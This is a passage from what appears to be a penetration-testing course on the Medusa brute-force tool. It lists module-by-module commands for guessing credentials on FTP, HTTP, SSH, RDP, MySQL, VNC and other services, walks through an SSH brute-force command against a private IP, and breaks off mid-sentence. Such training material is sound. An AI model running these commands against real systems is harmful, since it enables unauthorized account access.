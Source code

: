 Each module in Medusa is tailored to interact with specific authentication mechanisms, allowing it to send the appropriate requests and interpret responses for successful attacks. Below is a table of commonly used modules:

| Medusa Module    | Service/Protocol                 | Description                                                                                 | Usage Example                                                                                                               |
| ---------------- | -------------------------------- | ------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| FTP              | File Transfer Protocol           | Brute-forcing FTP login credentials, used for file transfers over a network.                | `medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| HTTP             | Hypertext Transfer Protocol      | Brute-forcing login forms on web applications over HTTP (GET/POST).                         | `medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^` |
| IMAP             | Internet Message Access Protocol | Brute-forcing IMAP logins, often used to access email servers.                              | `medusa -M imap -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| MySQL            | MySQL Database                   | Brute-forcing MySQL database credentials, commonly used for web applications and databases. | `medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt`                                                                 |
| POP3             | Post Office Protocol 3           | Brute-forcing POP3 logins, typically used to retrieve emails from a mail server.            | `medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| RDP              | Remote Desktop Protocol          | Brute-forcing RDP logins, commonly used for remote desktop access to Windows systems.       | `medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| SSHv2            | Secure Shell (SSH)               | Brute-forcing SSH logins, commonly used for secure remote access.                           | `medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt`                                                                   |
| Subversion (SVN) | Version Control System           | Brute-forcing Subversion (SVN) repositories for version control.                            | `medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| Telnet           | Telnet Protocol                  | Brute-forcing Telnet services for remote command execution on older systems.                | `medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt`                                                               |
| VNC              | Virtual Network Computing        | Brute-forcing VNC login credentials for remote desktop access.                              | `medusa -M vnc -h 192.168.1.100 -P passwords.txt`                                                                           |
| Web Form         | Brute-forcing Web Login Forms    | Brute-forcing login forms on websites using HTTP POST requests.                             | `medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`   |

### Targeting an SSH Server

Imagine a scenario where you need to test the security of an SSH server at `192.168.0.100`. You have a list of potential usernames in `usernames.txt` and common passwords in `passwords.txt`. To launch a brute-force attack against the SSH service on this server, use the following Medusa command:

  Medusa

```shell-session
anasec@htb[/htb]$ medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

This command instructs Medusa to:

- Target the host at `192.168.0.100`.
- Use the usernames from the `usernames.txt` file.
- Test the passwords listed in the `passwords.txt` file.
- Employ the `ssh` module for the attack.

Medusa will systematically try each username-password combination against the SSH service to attempt to gain unauthorized access.

### Targeting Multiple Web Servers with Basic HTTP Authentication

Suppose you have a list of web servers that use basic HTTP authentication. These servers' addresses are stored in `web_servers.txt`, and you also have lists of common usernames and passwords in `usernames.txt` and `passwords.txt`, respectively. To test these servers concurrently, execute:
